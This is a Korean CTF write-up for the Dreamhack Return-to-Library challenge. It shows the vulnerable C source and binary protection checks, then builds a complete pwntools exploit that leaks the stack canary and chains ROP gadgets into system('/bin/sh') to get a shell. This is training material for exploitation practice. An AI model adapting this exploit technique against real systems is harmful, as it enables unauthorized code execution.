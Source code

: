 # 문제 코드
```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}

```

# 분석

```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ checksec ./rtl
[*] '/home/foo1/Desktop/Dreamhack/Return-to-Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
 
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ file ./rtl
./rtl: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b9c3abd745cccbfbd94ffea0231133838853c9ae, not stripped
```

1. 64비트 아키택처임 
2. dynamic link로 되어 있음
3. 리틀엔디안
4. canary 있음
5. ASLR 활성화
6. NX 활성화 - 스택, 힙 등에서 코드 실행 불가하므로 RTL, ROP 관련일 확률이 높음
7. PIE 비활성화 - binsh 문자열 주소 고정(0x400000)
8. Partial RELRO - PLT, GOT의 주소가 고정임

1단계에서 BOF를 이용해 canary leak 하고, 2단계에서 RTL하면 됨

이 문제에선 libc_base를 구하지 않고도 풀 수 있게 만들기 위해서 의도적으로 `system`을 사용했음
다음에 `system`의 PLT를 사용해 `system`을 사용할 수 있게 됨

한편, `system`함수를 사용하기 위해선, pop rdi; ret 가젯이 필요하므로 찾아보면, 아래와 같음
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/rop]
└─$ ROPgadget --binary rop --re "pop rdi"
Gadgets information
============================================================
0x0000000000400853 : pop rdi ; ret

Unique gadgets found: 1
```

마지막으로, Partial RELRO가 적용되어 있으므로 PLT, GOT가 고정된 주소를 가짐
이를 pwntools의 `e.plt['system'`]에 접근하여 찾을 수 있음
마찬가지로 `e.search(b'/bin/sh)'`를 통해서 /bin/sh의 주소를 찾을 수도 있음
```sh
pwndbg> search /bin/sh
Searching for value: '/bin/sh'
rtl             0x400874 0x68732f6e69622f /* '/bin/sh' */
rtl             0x600874 0x68732f6e69622f /* '/bin/sh' */
libc.so.6       0x7ffff7dd8698 0x68732f6e69622f /* '/bin/sh' */
```

```python
from pwn import *

e=ELF('./rtl')
p=process('./rtl')
#p=remote('host3.dreamhack.games',23600)
context.log_level='debug'

binsh=next(e.search(b'/bin/sh'))

print(hex(binsh))
```

```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ python3 exploit.py 
[*] '/home/foo1/Desktop/Dreamhack/Return-to-Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './rtl': pid 94533
0x400874
```

위의 정보들을 종합하여 코드를 작성해 보면, 아래와 같은 결과를 얻을 수 있음
```python
from pwn import *

e=ELF('./rtl')
p=process('./rtl')
#p=remote('host3.dreamhack.games',23600)
context.log_level='debug'

pop_rdi_ret=0x0000000000400853
system_plt=e.plt['system']
binsh=next(e.search(b'/bin/sh'))
payload=b''
cnry=b'\x00'
buf_size=0x38

print(hex(binsh))

payload+=b'a'*(buf_size+1)
p.sendafter(b'Buf: ',payload)

p.recvuntil(payload)
cnry+=p.recv(7)

payload=b''
payload+=b'a'*buf_size
payload+=cnry
payload+=b'b'*0x8

payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(system_plt)

p.sendafter(b'Buf: ',payload)

p.interactive()
```

```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ python3 exploit.py 
[*] '/home/foo1/Desktop/Dreamhack/Return-to-Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './rtl': pid 94758
0x400874
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ ls
[*] Process './rtl' stopped with exit code -11 (SIGSEGV) (pid 94758)
[*] Got EOF while sending in interactive
```

여기서 `[*] Process './rtl' stopped with exit code -11 (SIGSEGV) (pid 94758)` 이 문장은 segfault가 나왔다는 의미인데, [[Stack Alignment]]를 안 맞춰져서 그럼
이를 해결하려면, 의미없는 가젯을 넣어줘야 하는데, 이를 위해 사용하는 것이 ret 가젯임
```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ ROPgadget --binary rtl --re "ret"
Gadgets information
============================================================
0x0000000000400639 : add ah, dh ; nop dword ptr [rax + rax] ; repz ret
0x000000000040063f : add bl, dh ; ret
...
0x0000000000400285 : ret
...
Unique gadgets found: 42

```


# exploit
```sh
from pwn import *

e=ELF('./rtl')
p=process('./rtl')
#p=remote('host3.dreamhack.games',23600)
#context.log_level='debug'

pop_rdi_ret=0x0000000000400853
ret=0x0000000000400285
system_plt=e.plt['system']
binsh=next(e.search(b'/bin/sh'))
payload=b''
cnry=b'\x00'
buf_size=0x38

payload+=b'a'*(buf_size+1)
p.sendafter(b'Buf: ',payload)

p.recvuntil(payload)
cnry+=p.recv(7)

payload=b''
payload+=b'a'*buf_size
payload+=cnry
payload+=b'b'*0x8

payload+=p64(ret)
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(system_plt)

p.sendafter(b'Buf: ',payload)

p.interactive()
```

```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/Return-to-Library]
└─$ python3 exploit.py 
[*] '/home/foo1/Desktop/Dreamhack/Return-to-Library/rtl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './rtl': pid 95189
[*] Switching to interactive mode
$ ls
 exploit.py  'Return to Library.zip'   rtl   rtl.c
$  
```